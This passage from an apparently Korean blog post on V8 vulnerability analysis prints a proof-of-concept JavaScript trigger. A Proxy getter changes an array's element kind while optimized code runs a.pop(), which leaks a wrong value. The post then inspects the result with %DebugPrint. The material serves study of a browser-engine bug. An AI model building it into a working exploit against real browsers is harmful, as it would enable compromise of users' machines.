 ![0123_0.png](https://github.com/Adawn0106/Adawn0106.github.io/raw/main/assets/img/posts/20250123/0123_0.png)

이상한 값이 나오는 걸 볼 수 있는데 

<br><br><br>

```js
/* poc.js */

// Copyright 2020 the V8 project authors. All rights reserved.
// Use of this source code is governed by a BSD-style license that can be
// found in the LICENSE file.

// Flags: --allow-natives-syntax

let a = [0, 1, 2, 3, 4];

function empty() { }

function f(p) {
    return a.pop(Reflect.construct(empty, arguments, p));
}

let p = new Proxy(Object, {
    get: () => {
        a[1] = 1.1;
        % DebugPrint(a);
        return Object.prototype;
    }
});

function main(p) {
    return f(p);
}

% PrepareFunctionForOptimization(empty);
% PrepareFunctionForOptimization(f);
% PrepareFunctionForOptimization(main);

main(empty);
main(empty);
% OptimizeFunctionOnNextCall(main);
print(main(p));
```
<br><br><br>

%debugprint를 추가해서 실행을 해봤습니다.

<br><br><br>

